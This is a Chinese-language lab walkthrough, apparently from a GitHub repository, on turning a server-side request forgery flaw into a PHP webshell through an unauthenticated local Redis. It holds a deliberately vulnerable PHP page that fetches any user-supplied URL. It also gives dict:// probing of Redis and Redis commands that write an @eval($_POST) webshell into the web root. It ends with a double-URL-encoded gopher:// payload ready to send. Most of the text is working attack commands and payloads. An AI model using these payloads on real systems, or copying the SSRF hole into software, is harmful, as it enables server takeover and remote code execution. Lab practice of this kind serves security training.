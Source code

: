 

# ssrf+redis 实现webshell

创建存在ssrf的网页

```
<?php
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_GET['url']);
#curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_HEADER, 0);
#curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
curl_exec($ch);
curl_close($ch);
?>
```

> 测试

```
http://127.0.0.1:889/ssrf/2.php?url=http://www.baidu.com
```

![image-20220303144221986](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203031442085.png)

## 1、查看是否存在redis

进行redis的默认端口6379进行访问，如下图，可以发现靶机上的redis服务

```
http://127.0.0.1:889/ssrf/2.php?url=dict://127.0.0.1:6379/info
```

![image-20220303144544828](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203031445913.png)

## 2、webshell payload

> redis  payload
>
> 在D:\xp.cn\www\wwwroot\admin\localhost_889\wwwroot\DoraBox\ssrf 文件夹创建 shell.php 文件

```
set x "\n\n\n<?php @eval($_POST['redis']);?>\n\n\n"
config set dir D:\xp.cn\www\wwwroot\admin\localhost_889\wwwroot\DoraBox\ssrf 
config set dbfilename shell.php
save
```

## 3、请求伪造

8通过URL访问SSRF漏洞地址：http://10.1.8.159/ssrf.php?url=
结合gother协议构造符合格式的paylod，从而模拟redis通信。
正常是在redis客户端和服务端连接通信时

> 将gother后面非字符内容进行URL编码

```
http://192.168.211.130/ssrf.php?url=gother://127.0.0.1:6379/_payload
转换为：
http://192.168.211.130/ssrf.php?url=gopher%3a%2f%2f127.0.0.1%3a6379%2f_payload
```

> 对payload进行两次url编码

![image-20220303145005482](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203031450565.png)

```
%25%37%33%25%36%35%25%37%34%25%32%30%25%37%38%25%32%30%25%32%32%25%35%63%25%36%65%25%35%63%25%36%65%25%35%63%25%36%65%25%33%63%25%33%66%25%37%30%25%36%38%25%37%30%25%32%30%25%34%30%25%36%35%25%37%36%25%36%31%25%36%63%25%32%38%25%32%34%25%35%66%25%35%30%25%34%66%25%35%33%25%35%34%25%35%62%25%32%37%25%37%32%25%36%35%25%36%34%25%36%39%25%37%33%25%32%37%25%35%64%25%32%39%25%33%62%25%33%66%25%33%65%25%35%63%25%36%65%25%35%63%25%36%65%25%35%63%25%36%65%25%32%32%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%32%30%25%37%33%25%36%35%25%37%34%25%32%30%25%36%34%25%36%39%25%37%32%25%32%30%25%34%34%25%33%61%25%35%63%25%37%38%25%37%30%25%32%65%25%36%33%25%36%65%25%35%63%25%37%37%25%37%37%25%37%37%25%35%63%25%37%37%25%37%37%25%37%37%25%37%32%25%36%66%25%36%66%25%37%34%25%35%63%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65%25%35%63%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%36%38%25%36%66%25%37%33%25%37%34%25%35%66%25%33%38%25%33%38%25%33%39%25%35%63%25%37%37%25%37%37%25%37%37%25%37%32%25%36%66%25%36%66%25%37%34%25%35%63%25%34%34%25%36%66%25%37%32%25%36%31%25%34%32%25%36%66%25%37%38%25%35%63%25%37%33%25%37%33%25%37%32%25%36%36%25%32%30%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%32%30%25%37%33%25%36%35%25%37%34%25%32%30%25%36%34%25%36%32%25%36%36%25%36%39%25%36%63%25%36%35%25%36%65%25%36%31%25%36%64%25%36%35%25%32%30%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%37%30%25%36%38%25%37%30%25%30%61%25%37%33%25%36%31%25%37%36%25%36%35
```

> 最终请求url参数

```
gopher%3a%2f%2f127.0.0.1%3a6379%2f%25%37%33%25%36%35%25%37%34%25%32%30%25%37%38%25%32%30%25%32%32%25%35%63%25%36%65%25%35%63%25%36%65%25%35%63%25%36%65%25%33%63%25%33%66%25%37%30%25%36%38%25%37%30%25%32%30%25%34%30%25%36%35%25%37%36%25%36%31%25%36%63%25%32%38%25%32%34%25%35%66%25%35%30%25%34%66%25%35%33%25%35%34%25%35%62%25%32%37%25%37%32%25%36%35%25%36%34%25%36%39%25%37%33%25%32%37%25%35%64%25%32%39%25%33%62%25%33%66%25%33%65%25%35%63%25%36%65%25%35%63%25%36%65%25%35%63%25%36%65%25%32%32%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%32%30%25%37%33%25%36%35%25%37%34%25%32%30%25%36%34%25%36%39%25%37%32%25%32%30%25%34%34%25%33%61%25%35%63%25%37%38%25%37%30%25%32%65%25%36%33%25%36%65%25%35%63%25%37%37%25%37%37%25%37%37%25%35%63%25%37%37%25%37%37%25%37%37%25%37%32%25%36%66%25%36%66%25%37%34%25%35%63%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65%25%35%63%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%36%38%25%36%66%25%37%33%25%37%34%25%35%66%25%33%38%25%33%38%25%33%39%25%35%63%25%37%37%25%37%37%25%37%37%25%37%32%25%36%66%25%36%66%25%37%34%25%35%63%25%34%34%25%36%66%25%37%32%25%36%31%25%34%32%25%36%66%25%37%38%25%35%63%25%37%33%25%37%33%25%37%32%25%36%36%25%32%30%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%32%30%25%37%33%25%36%35%25%37%34%25%32%30%25%36%34%25%36%32%25%36%36%25%36%39%25%36%63%25%36%35%25%36%65%25%36%31%25%36%64%25%36%35%25%32%30%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%37%30%25%36%38%25%37%30%25%30%61%25%37%33%25%36%31%25%37%36%25%36%35
```

## 4、结果

> 访问

![image-20220303145316880](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203031453976.png)

webshell 生成成功

![image-20220303145439880](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203031454988.png)

![image-20220303145456089](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203031454142.png)